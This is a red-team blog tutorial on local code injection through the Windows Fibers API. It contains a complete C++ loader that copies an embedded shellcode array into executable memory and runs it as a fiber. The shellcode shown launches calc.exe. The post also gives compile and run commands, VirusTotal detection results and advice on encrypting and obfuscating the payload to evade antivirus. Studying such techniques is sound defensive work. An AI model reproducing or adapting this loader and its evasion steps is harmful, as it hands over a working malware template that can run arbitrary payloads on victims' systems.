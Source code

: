 ```yaml
---
title:  "Code injection via windows Fibers. Simple C++ malware."
date:   2021-11-28 10:00:00 +0600
header:
  teaser: "/assets/images/26/2021-11-28_20-18.png"
categories:
  - tutorial
tags:
  - code injection
  - windows
  - malware
  - red team
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![fiber injection](/assets/images/26/2021-11-28_20-18.png){:class="img-responsive"}    

In this post, I'll take a look at the code injection to local process through Windows Fibers API.    

A fiber is a unit of execution that must be manually scheduled by the application. Fibers run in the context of the threads that schedule them.    

### example

Let's go to consider an example which demonstrate this technique.   

Firstly, before scheduling the first fiber, call the `ConvertThreadToFiber` function to create an area in which to save fiber state information:

![fiber injection 2](/assets/images/26/2021-11-28_20-49.png){:class="img-responsive"}    

Then, allocate some memory for our payload and payload is written to the allocated memory:

![fiber injection 3](/assets/images/26/2021-11-28_20-50.png){:class="img-responsive"}    

As you can see, `VirtualAlloc` called with `PAGE_EXECUTE_READWRITE` parameter, which means executable, readable and writeable.

The next step is create a fiber that will execute the our payload:    

![fiber injection 4](/assets/images/26/2021-11-28_20-57.png){:class="img-responsive"}    

And finally, schedule the newly created fiber that points to our payload:

![fiber injection 5](/assets/images/26/2021-11-28_20-59.png){:class="img-responsive"}    

So, our full source code is (`hack.cpp`):      
```cpp
/*
hack.cpp
code inject via fibers
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/28/malware-injection-8.html
*/
#include <windows.h>

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

unsigned int my_payload_len = sizeof(my_payload);

int main() {

  PVOID f; // converted
  PVOID payload_mem; // memory buffer for payload
  PVOID payloadF; // fiber

  // convert main thread to fiber
  f = ConvertThreadToFiber(NULL);

  // allocate memory buffer
  payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  memcpy(payload_mem, my_payload, my_payload_len);

  // create a fiber that will execute payload
  payloadF = CreateFiber(NULL, (LPFIBER_START_ROUTINE)payload_mem, NULL);

  SwitchToFiber(payloadF);
  return 0;
}

```

As you can see for simplicity, we use 64-bit `calc.exe` as the payload. Without delving into the generation of the payload, we will simply insert payload into our code:
```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
```

Let's go to compile our simple malware:
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![fiber injection 6](/assets/images/26/2021-11-28_21-04.png){:class="img-responsive"}    

Let's go to launch a `hack.exe` on windows 7 x64:    
```cmd
.\hack.exe
```

![fiber injection 7](/assets/images/26/2021-11-28_21-06.png){:class="img-responsive"}    

Also perfectly worked on `windows 10 x64 (build 18363)`:

![fiber injection 8](/assets/images/26/2021-11-28_21-08.png){:class="img-responsive"}    

Let's go to upload our malware to virustotal:

![fiber injection 9](/assets/images/26/2021-11-28_21-31.png){:class="img-responsive"}    

[https://www.virustotal.com/gui/file/f03bdb9fa52f7b61ef03141fefff1498ad2612740b1fdbf6941f1c5af5eee70a?nocache=1](https://www.virustotal.com/gui/file/f03bdb9fa52f7b61ef03141fefff1498ad2612740b1fdbf6941f1c5af5eee70a?nocache=1)    

**So, 25 of 67 AV engines detect our file as malicious.**    

For better result we can combine [payload encryption](/tutorial/2021/09/04/simple-malware-av-evasion.html) with random key and [obfuscate functions](/tutorial/2021/09/06/simple-malware-av-evasion-2.html) with another keys etc.   
Also we can use [AES encryption](/tutorial/2021/09/15/simple-rev-c-1.html) for payload encryption.   

[BlackHat USA 2019 process injection techniques Gotta Catch Them All](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf)     
[MSDN Fibers](https://docs.microsoft.com/en-us/windows/win32/procthread/fibers)    
[VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)    
[ConvertThreadToFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-convertthreadtofiber)    
[CreateFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createfiber)    
[SwitchToFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-switchtofiber)    
[memcpy](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/memcpy-wmemcpy?view=msvc-170)    
[Source code in Github](https://github.com/cocomelonc/2021-11-26-malware-injection-8)    

> This is a practical case for educational purposes only.      

Thanks for your time, happy hacking and good bye!    
*PS. All drawings and screenshots are mine*
